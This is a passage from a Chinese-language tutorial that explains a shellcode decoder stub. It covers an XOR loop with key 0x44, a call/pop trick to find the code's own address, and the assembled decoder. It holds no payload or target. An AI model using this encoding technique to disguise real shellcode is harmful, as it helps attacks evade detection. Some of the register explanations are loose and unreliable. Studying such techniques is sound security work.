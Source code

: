 **解码程序：**是shellcode的一部分。下面的解码程序中，默认EAX在shellcode开始时对准shellcode起始位置，程序将每次将shellcode的代码异或特定key（0x44）后重新覆盖原先shellcode的代码。末尾，放一个空指令0x90作为结束符

```assembly
void main()
{
    __asm
    {
        add eax, 0x14 ;  越过decoder记录shellcode起始地址,eax记录当前shellcode开始地址
        xor ecx, ecx
    decode_loop:
        mov bl, [eax + ecx]
        xor bl, 0x44             ;用0x44作为key
        mov [eax + ecx], bl
        inc ecx
        cmp bl, 0x90             ;末尾放一个0x90作为结束符
        jne decode_loop
    }
}
```

​	那么如何获取代码当前的地址呢？

```assembly
#include <iostream>
using namespace std;
int main(int argc, char const *argv[])
{
    unsigned   int   temp;    
    __asm{
        call lable;
       lable:
        pop eax;
        mov temp,eax;
    }
    cout <<temp <<endl;
    return 0;
}
```

​	重点是call开始的三句话，首先执行lable函数，功能是将eax做pop操作，就是将eax寄存器的位置抬升了一位，然后将eax的值赋给temp并输出

​	**实际上，call指令会执行push EIP，eip的值就是下一条指令pop EAX的地址，pop EAX会将栈顶的EIP出栈，保存到EAX中**，所以EAX指向的就是pop EAX的地址，从14到了15（因为抬升了一位）

最终的shellcode如下所示

```assembly
int main(){
   __asm  {
     call lable; 
     lable: pop eax; 
        add eax, 0x15            ;越过decoder记录shellcode起始地址
        xor ecx, ecx
    decode_loop:
        mov bl, [eax + ecx]
        xor bl, 0x44             ;用0x44作为key
        mov [eax + ecx], bl
        inc ecx
        cmp bl, 0x90             ;末尾放一个0x90作为结束符
        jne decode_loop 
    } 
	return 0;
}
```
